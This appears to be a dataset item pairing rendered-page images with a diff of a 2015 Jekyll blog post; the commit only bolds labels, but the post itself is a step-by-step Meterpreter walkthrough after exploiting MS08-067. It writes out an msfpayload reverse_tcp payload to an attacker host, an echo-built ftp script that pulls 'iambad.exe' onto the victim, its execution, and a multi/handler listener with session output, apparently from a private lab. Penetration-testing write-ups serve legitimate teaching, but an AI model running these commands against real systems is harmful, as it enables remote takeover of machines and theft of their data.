

Before and after one commit to dmittakarin8/dmittakarin8.github.io, a Jekyll site: the page built from _posts/2015-06-05-Meterpreter-Post-Exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 198 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2015-06-05-Meterpreter-Post-Exploitation.md
+++ b/_posts/2015-06-05-Meterpreter-Post-Exploitation.md
@@ -5,21 +5,22 @@ title: Meterpreter up and running post exploitation
 ---
 
 
+
 I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.
 
-Attacker:  Start the ftp service on my attacking machine
+**Attacker**:  Start the ftp service on my attacking machine
 
     service pure-ftpd start
 
-Attacker:  Create a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory
+**Attacker**:  Create a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory
 
     msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
 
-Victim:  Exploit MS08-067 refer to
+**Victim**:  Exploit MS08-067 refer to
 
 http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/
 
-Victim:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands:
+**Victim**:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands:
 
     echo open 192.168.30.36> ftp.txt
     echo your_username>> ftp.txt
@@ -28,15 +29,15 @@ Victim:  FTP is installed on the server.  FTP is not interactive, so create a te
     echo get iambad.exe>> ftp.txt
     echo bye>> ftp.txt
 
-Victim:  Execute the ftp command passing the ftp.txt as a parameter
+**Victim**:  Execute the ftp command passing the ftp.txt as a parameter
 
     ftp -s:ftp.txt
 
-Attacker:  Start msfconsole on attacking machine
+**Attacker**:  Start msfconsole on attacking machine
 
     msfconsole
 
-Attacker:  Start multi/handler, set LHOST, set LPORT, and start handler
+**Attacker**:  Start multi/handler, set LHOST, set LPORT, and start handler
 
     msf > use exploit/multi/handler
     msf exploit(handler) > set LHOST 192.168.30.36
@@ -45,11 +46,11 @@ Attacker:  Start multi/handler, set LHOST, set LPORT, and start handler
     [*] Started reverse handler on 192.168.30.36:443
     [*] Starting the payload handler...
 
-Victim:  Execute payload
+**Victim**:  Execute payload
 
     iambad.exe
 
-Attacker:  Meterpreter session obtained
+**Attacker**:  Meterpreter session obtained
 
     [*] Sending stage (770048 bytes) to 192.168.31.205
     [*] Meterpreter session 1 opened (192.168.30.36:443 -> 192.168.31.205:2707) at 2015-06-05 08:06:04 -0400
```
